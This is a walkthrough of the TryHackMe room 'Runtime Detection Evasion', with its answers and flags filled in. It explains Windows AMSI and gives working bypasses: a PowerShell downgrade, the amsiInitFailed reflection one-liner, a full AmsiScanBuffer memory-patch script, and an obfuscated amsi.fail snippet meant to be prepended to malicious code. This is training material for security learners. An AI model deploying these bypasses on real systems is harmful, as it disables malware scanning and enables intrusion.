

# [Runtime Detection Evasion](https://tryhackme.com/r/room/runtimedetectionevasion)


Learn how to bypass common runtime detection measures, such as AMSI, using modern tool-agnostic approaches.

## Task 1 - Introduction

With the release of PowerShell <3 the Blue Team, Microsoft released AMSI (Anti-Malware Scan Interface), a runtime monitoring solution designed to stop and monitor ongoing threats.


### Learning Objectives

1. Understand the purpose of runtime detections and how they are instrumented.
2. Learn and apply techniques to bypass AMSI.
3. Understand common mitigations and potential alternatives to techniques.

Runtime detection measures can cause many headaches and roadblocks when executing malicious code. Luckily for us as attackers, there are several techniques and methods we can abuse and leverage to bypass common runtime detection solutions.

This room will use research from several authors and researchers; all credit goes to the respective owners.

Before beginning this room, familiarize yourself with operating system architecture as a whole. Basic programming knowledge in C# and PowerShell is also recommended but not required.

We have provided a base Windows machine with the files needed to complete this room. You can access the machine in-browser or through RDP using the credentials below.

|Machine IP: MACHINE_IP|Username: THM-Attacker|Password: Tryhackme!|

This is going to be a lot of information. Please buckle your seatbelts and locate your nearest fire extinguisher.

### Answer the questions below

* Start the provided machine and move on to the next tasks.

## Task 2 - Runtime Detections


When executing code or applications, it will almost always flow through a runtime, no matter the interpreter. This is most commonly seen when using Windows API calls and interacting with .NET. The [CLR (Common Language Runtime)](https://docs.microsoft.com/en-us/dotnet/standard/clr) and [DLR (Dynamic Language Runtime)](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) are the runtimes for .NET and are the most common you will encounter when working with Windows systems. In this task, we will not discuss the specifics of runtimes; instead, we will discuss how they are monitored and malicious code is detected.

A runtime detection measure will scan code before execution in the runtime and determine if it is malicious or not. Depending on the detection measure and technology behind it, this detection could be based on string signatures, heuristics, or behaviors. If code is suspected of being malicious, it will be assigned a value, and if within a specified range, it will stop execution and possibly quarantine or delete the file/code.

Runtime detection measures are different from a standard anti-virus because they will scan directly from memory and the runtime. At the same time, anti-virus products can also employ these runtime detections to give more insight into the calls and hooks originating from code. In some cases, anti-virus products may use a runtime detection stream/feed as part of their heuristics.

We will primarily focus on [AMSI(Anti-Malware Scan Interface)](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) in this room. AMSI is a runtime detection measure shipped natively with Windows and is an interface for other products and solutions.

### Answer the questions below

* Read the above and answer the question below.

* What runtime detection measure is shipped natively with Windows?

	**Answer : AMSI**

## Task 3 - AMSI Overview

**AMSI** (Anti-Malware Scan Interface) is a PowerShell security feature that will allow any applications or services to integrate directly into anti-malware products. Defender instruments AMSI to scan payloads and scripts before execution inside the .NET runtime. From Microsoft: "The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any anti-malware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads."

For more information about AMSI, check out the [Windows docs](https://docs.microsoft.com/en-us/windows/win32/amsi/).

AMSI will determine its actions from a response code as a result of monitoring and scanning. Below is a list of possible response codes,

* AMSI_RESULT_CLEAN = 0
* AMSI_RESULT_NOT_DETECTED = 1
* AMSI_RESULT_BLOCKED_BY_ADMIN_START = 16384
* AMSI_RESULT_BLOCKED_BY_ADMIN_END = 20479
* AMSI_RESULT_DETECTED = 32768

These response codes will only be reported on the backend of AMSI or through third-party implementation. If AMSI detects a malicious result, it will halt execution and send the below error message.


AMSI is fully integrated into the following Windows components,

* User Account Control, or UAC
* PowerShell
* Windows Script Host (wscript and cscript)
* JavaScript and VBScript
* Office VBA macros

As attackers, when targeting the above components, we will need to be mindful of AMSI and its implementations when executing code or abusing components.

In the next task, we will cover the technical details behind how AMSI works and is instrumented in Windows.

### Answer the questions below

* Read the above and answer the question below.

* What response value is assigned to `32768`?

	**Answer : AMSI_RESULT_DETECTED**

## Task 4 - AMSI Instrumentation

The way AMSI is instrumented can be complex, including multiple DLLs and varying execution strategies depending on where it is instrumented. By definition, AMSI is only an interface for other anti-malware products; AMSI will use multiple provider DLLs and API calls depending on what is being executed and at what layer it is being executed.

AMSI is instrumented from `System.Management.Automation.dll`, a .NET assembly developed by Windows; From the Microsoft docs, "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications." The .NET assembly will instrument other DLLs and API calls depending on the interpreter and whether it is on disk or memory. The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.


In the above graph data will begin flowing dependent on the interpreter used (PowerShell/VBScript/etc.)  Various API calls and interfaces will be instrumented as the data flows down the model at each layer. It is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below. 



Note: AMSI is only instrumented when loaded from memory when executed from the CLR. It is assumed that if on disk MsMpEng.exe (Windows Defender) is already being instrumented.

Most of our research and known bypasses are placed in the Win32 API layer, manipulating the [AmsiScanBuffer](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) API call.

You may also notice the "Other Applications" interface from AMSI. Third-parties such as AV providers can instrument AMSI from their products. Microsoft documents AMSI functions and the [AMSI stream interface](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream).

We can break down the code for AMSI PowerShell instrumentation to better understand how it is implemented and checks for suspicious content. To find where AMSI is instrumented, we can use [InsecurePowerShell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master) maintained by [Cobbr](https://github.com/cobbr). InsecurePowerShell is a GitHub fork of PowerShell with security features removed; this means we can look through the compared commits and observe any security features. AMSI is only instrumented in twelve lines of code under `src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs`. These twelve lines are shown below.

```
var scriptExtent = scriptBlockAst.Extent;
 if (AmsiUtils.ScanContent(scriptExtent.Text, scriptExtent.File) == AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED)
 {
  var parseError = new ParseError(scriptExtent, "ScriptContainedMaliciousContent", ParserStrings.ScriptContainedMaliciousContent);
  throw new ParseException(new[] { parseError });
 }

 if (ScriptBlock.CheckSuspiciousContent(scriptBlockAst) != null)
 {
  HasSuspiciousContent = true;
 }
```

We can take our knowledge of how AMSI is instrumented and research from others to create and use bypasses that abuse and evade AMSI or its utilities.

### Answer the questions below

* Read the above and answer the question below.

* Will AMSI be instrumented if the file is only on disk? (Y/N)

	**Answer : N**

## Task 5 - PowerShell Downgrade

The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.

Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

The attack only requires a one-liner to execute in our session. We can launch a new PowerShell process with the flags `-Version` to specify the version (2).

```
PowerShell -Version 2
```

This attack can actively be seen exploited in tools such as [Unicorn](https://github.com/trustedsec/unicorn).

```
full_attack = '''powershell /w 1 /C "sv {0} -;sv {1} ec;sv {2} ((gv {3}).value.toString()+(gv {4}).value.toString());powershell (gv {5}).value.toString() (\\''''.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha_av + ")" + '"'
```

Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.

The two easiest mitigations are removing the PowerShell 2.0 engine from the device and denying access to PowerShell 2.0 via application blocklisting.

### Answer the questions below

* Read the above and practice downgrading PowerShell on the provided machine.

* Enter the flag obtained from the desktop after executing the command in cmd.exe.

	```
	PowerShell -Version 2
	```

	![task5-flag.png]
	
	**Answer : THM{p0w3r5h3ll_d0wn6r4d3!}**

## Task 6 - PowerShell Reflection

Reflection allows a user or administrator to access and interact with .NET assemblies. From the Microsoft docs, "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications." .NET assemblies may seem foreign; however, we can make them more familiar by knowing they take shape in familiar formats such as exe (**exe**cutable) and **dll** (dynamic-link library).

PowerShell reflection can be abused to modify and identify information from valuable DLLs.

The AMSI utilities for PowerShell are stored in the `AMSIUtils` .NET assembly located in `System.Management.Automation.AmsiUtils`.

Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

To explain the code functionality, we will break it down into smaller sections.

First, the snippet will call the reflection function and specify it wants to use an assembly from `[Ref.Assembly]` it will then obtain the type of the AMSI utility using `GetType`.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

The information collected from the previous section will be forwarded to the next function to obtain a specified field within the assembly using `GetField`.

```
.GetField('amsiInitFailed','NonPublic,Static')
```

The assembly and field information will then be forwarded to the next parameter to set the value from `$false` to `$true` using `SetValue`.

```
.SetValue($null,$true)
```

Once the `amsiInitFailed` field is set to `$true`, AMSI will respond with the response code: AMSI_RESULT_NOT_DETECTED = 1

### Answer the questions below

Read the above and practice leveraging the one-liner on the provided machine.

* To utilize the one-liner, you can run it in the same session as the desired malicious code or prepend it to the malicious code.

* Enter the flag obtained from the desktop after executing the command.

	```
	[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
	```

	

	**Answer : THM{r3fl3c7_4ll_7h3_7h1n65}**

## Task 7 - Patching AMSI


AMSI is primarily instrumented and loaded from `amsi.dll`; this can be confirmed from the diagram we observed earlier. This dll can be abused and forced to point to a response code we want. The `AmsiScanBuffer` function provides us the hooks and functionality we need to access the pointer/buffer for the response code.

`AmsiScanBuffer` is vulnerable because `amsi.dll` is loaded into the PowerShell process at startup; our session has the same permission level as the utility.

`AmsiScanBuffer` will scan a "[buffer](https://en.wikipedia.org/wiki/Data_buffer)" of suspected code and report it to `amsi.dll` to determine the response. We can control this function and overwrite the buffer with a clean return code. To identify the buffer needed for the return code, we need to do some reverse engineering; luckily, this research and reverse engineering have already been done. We have the exact return code we need to obtain a clean response!

We will break down a code snippet modified by BC-Security and inspired by Tal Liberman; you can find the original code [here](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/common/bypasses.py). RastaMouse also has a similar bypass written in C# that uses the same technique; you can find the code [here](https://github.com/rasta-mouse/AmsiScanBufferBypass).

At a high-level AMSI patching can be broken up into four steps,

1. Obtain handle of amsi.dll
2. Get process address of AmsiScanBuffer
3. Modify memory protections of AmsiScanBuffer
4. Write opcodes to AmsiScanBuffer

We first need to load in any external libraries or API calls we want to utilize; we will load [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress), [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea), and [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) from **kernel32** using [p/invoke](https://docs.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke).

```
[DllImport(`"kernel32`")] // Import DLL where API call is stored
public static extern IntPtr GetProcAddress( // API Call to import
	IntPtr hModule, // Handle to DLL module
	string procName // function or variable to obtain
);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(
	string lpModuleName // Module to obtain handle
);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(
	IntPtr lpAddress, // Address of region to modify
	UIntPtr dwSize, // Size of region
	uint flNewProtect, // Memory protection options
	out uint lpflOldProtect // Pointer to store previous protection options
); 
```

The functions are now defined, but we need to load the API calls using `Add-Type`. This cmdlet will load the functions with a proper type and namespace that will allow the functions to be called.

```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

Now that we can call our API functions, we can identify where `amsi.dll` is located and how to get to the function. First, we need to identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process address of `AmsiScanBuffer` using `GetProcAddress`.

```
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
); 
```

Next, we need to modify the memory protection of the `AmsiScanBuffer` process region. We can specify parameters and the buffer address for `VirtualProtect`.

Information on the parameters and their values can be found from the previously mentioned API documentation.

```
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 
```

We need to specify what we want to overwrite the buffer with; the process to identify this buffer can be found [here](https://rastamouse.me/memory-patching-amsi-bypass/). Once the buffer is specified, we can use [marshal copy](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0) to write to the process.

```
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```

At this stage, we should have an AMSI bypass that works! It should be noted that with most tooling, signatures and detections can and are crafted to detect this script. 

### Answer the questions below

* Read the above and execute/observe the script on the provided machine.

* Enter the flag obtained from the desktop after executing the command.

	

	**Answer : THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}**

## Task 8 - Patching AMSI

While it is preferred to use the previous methods shown in this room, attackers can use other automated tools to break AMSI signatures or compile a bypass.

The first automation tool we will look at is [amsi.fail](http://amsi.fail/)

[amsi.fail](http://amsi.fail/) will compile and generate a PowerShell bypass from a collection of known bypasses. From amsi.fail, "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."

Below is an example of an obfuscated PowerShell snippet from amsi.fail

```
$d=$null;$qcgcjblv=[$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).Runtime.InteropServices.Marshal]::AllocHGlobal((9076+7561-7561));$pkgzwpahfwntq="+('lwbj'+'cymh').NORmaliZe([CHar]([byTe]0x46)+[char](111)+[ChAR]([ByTE]0x72)+[chaR](109*73/73)+[ChAR]([ByTE]0x44)) -replace [char]([bytE]0x5c)+[Char](112*106/106)+[char]([bYte]0x7b)+[chAR]([BYtE]0x4d)+[CHAR](110+8-8)+[CHAr]([BytE]0x7d)";[Threading.Thread]::Sleep(1595);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$(('àmsí'+'Sess'+'íón').norMALiZE([CHaR](70*49/49)+[chAr](87+24)+[ChaR]([bytE]0x72)+[chAr](109)+[chAR](68+43-43)) -replace [CHAr](92)+[chAr]([byTe]0x70)+[CHAr]([bYTE]0x7b)+[cHAr](77*71/71)+[CHar]([bYtE]0x6e)+[char](125+49-49))", "NonPublic,Static").SetValue($d, $null);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$([chAR]([byTe]0x61)+[Char](109+52-52)+[cHar](46+69)+[CHar]([byTe]0x69)+[CHAR]([BYTe]0x43)+[Char]([ByTe]0x6f)+[chAR](110)+[chaR](116*47/47)+[cHar](101)+[CHAR]([bYte]0x78)+[CHaR]([ByTE]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$qcgcjblv);
```

You can attach this bypass at the beginning of your malicious code as with previous bypasses or run it in the same session before executing malicious code.

[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.

The syntax for using amsitrigger is relatively straightforward; you need to specify the file or URL and what format to scan the file. Below is an example of running amsitrigger.


Signatures are highlighted in red; you can break these signatures by encoding, obfuscating, etc.

### Answer the questions below

* Read the above and continue to the next task.

## Task 9 - Conclusion

Runtime detections and AMSI are only one of many detections and mitigations you can face when employing techniques against a hardened or up-to-date device.

These bypasses can be used on their own or in a chain with other exploits and techniques to ultimately - evade all the things.

It is important to keep these tools from this room in your back pocket. You cannot solely rely on them to evade detections, but you can get around and deter a lot of detections using the discussed techniques.

### Answer the questions below

* Read the above and continue learning!